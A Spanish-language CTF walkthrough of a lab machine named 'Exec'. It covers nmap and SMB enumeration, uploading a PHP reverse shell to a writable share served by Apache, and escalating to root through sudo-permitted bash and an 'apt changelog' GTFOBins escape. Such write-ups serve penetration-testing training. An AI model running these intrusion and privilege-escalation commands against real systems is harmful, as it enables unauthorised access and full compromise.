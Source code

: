 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Exec

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.74
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.74 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el **puerto 22** perteneciente al **servicio SS**H, el **puerto 80** perteneciente al **servicio HTTP**, el **puerto 139** y el **puerto 445**, ambos pertenecientes al **servicio SMB** (Server Message Block), están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,139,445 -v 192.168.1.74
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80. Como podemos ver es la página de por defecto de Apache.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```bash
gobuster dir -u http://192.168.1.74 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

No encontramos nada por lo que revisamos el servicio SAMBA al listar los directorios compartidos.

```bash
smbclient -N -L 192.168.1.74
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que permisos tenemos.

```bash
smbmap -H 192.168.1.74
```

Tenemos permisos de escritura y lectura en el directorio compartido **/server**.

```bash
smbclient //192.168.1.74/server
```

### 🚀 **EXPLOTACIÓN**

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Voy a intentar subir una Reverse Shell ya que parece ser que corresponden a las páginas del puerto 80.

```
put revshell.php
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bash/#suid" %}

<pre class="language-bash"><code class="lang-bash"><strong>sudo -u s3cur4 /usr/bin/bash
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/apt/#suid" %}

```bash
sudo -u root /usr/bin/apt changelog apt
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.
